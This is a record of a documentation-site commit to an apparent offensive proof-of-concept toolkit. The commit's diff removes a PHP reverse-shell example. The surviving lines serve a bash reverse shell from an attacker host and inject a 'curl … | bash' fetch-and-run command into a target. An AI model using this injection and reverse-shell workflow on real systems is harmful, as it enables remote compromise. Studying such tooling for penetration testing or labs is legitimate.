

Before and after one commit to kwkeefer/cookiecutter-poc, a Sphinx documentation site: the page built from docs/http-server.rst, in a window 1280 px wide and 900 px high, scrolled down 2633 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 3.1.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
remove example

```diff
--- a/docs/http-server.rst
+++ b/docs/http-server.rst
@@ -155,10 +155,6 @@ Utility modules automatically write payloads to ``payloads/`` for serving.
    # Returns: "shells/rev_bash.sh"
    # Served at: http://10.10.14.5:8000/shells/rev_bash.sh
 
-   # Generate PHP shell → payloads/shells/rev_php.php
-   php_path = php_shell("10.10.14.5", 4444)
-   # Served at: http://10.10.14.5:8000/shells/rev_php.php
-
    # Trigger download on target
    requests.post(target, data={
        "cmd": f"curl http://10.10.14.5:8000/{path} | bash"
```
